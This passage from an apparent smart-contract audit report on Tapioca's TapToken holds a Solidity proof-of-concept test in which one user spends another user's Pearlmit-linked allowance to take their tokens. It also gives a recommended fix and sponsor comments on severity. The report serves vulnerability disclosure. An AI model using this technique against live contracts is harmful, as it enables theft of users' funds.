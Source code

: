 ### Proof of Concept

Test in `tap-token/test/TapToken.t.sol`:

```solidity
    function testStealTapTokenUsingPearlmitAllowanceToTapToken() public {
        deal(address(aTapOFT), userA, 1e18);
        assertEq(aTapOFT.balanceOf(userA), 1e18);
        assertEq(aTapOFT.balanceOf(userB), 0);

        // userA allows TapToken to transfer TapTokens
        vm.startPrank(userA);
        pearlmit.approve(address(aTapOFT), 0, address(aTapOFT), 1e18, type(uint48).max);
        aTapOFT.approve(address(pearlmit), 1e18);
        vm.stopPrank();

        // userB sees this and uses that allowance to transfer to themselves
        vm.prank(userB);
        aTapOFT.transferFrom(userA,userB, 1e18);
        
        assertEq(aTapOFT.balanceOf(userA), 0);
        assertEq(aTapOFT.balanceOf(userB), 1e18);
    }
```

### Recommended Mitigation Steps

Consider not doing the fallback to `Pearlmit` in `transferFrom`.

### Assessed type

Access Control

**[cryptotechmaker (Tapioca) commented](https://github.com/code-423n4/2024-02-tapioca-findings/issues/172#issuecomment-2009720953):**
 > Low/Invalid; The issue seems a bit out of context. The link provided is from `BaseTapiocaOmnichainEngine` and there's no context provided from which part this is triggered on TapToken.
> 
> Also this would be possible only if the approve in pearlmit is done with a large enough deadline and amount someone else can exploit. All pearlmit approvals have a deadline associated with them.

**[0xRektora (Tapioca) confirmed and commented](https://github.com/code-423n4/2024-02-tapioca-findings/issues/172#issuecomment-2016878574):**
 > I'd keep it as medium. Potential side effects might happen on current/future TOE tokens.

***

## [[M-05] `depositRepayAndRemoveCollateralFromMarket` function of MagnetarAssetModule can't be used on behalf of user](https://github.com/code-423n4/2024-02-tapioca-findings/issues/158)
*Submitted by [KIntern\_NA](https://github.com/code-423n4/2024-02-tapioca-findings/issues/158), also found by [GalloDaSballo](https://github.com/code-423n4/2024-02-tapioca-findings/issues/93)*
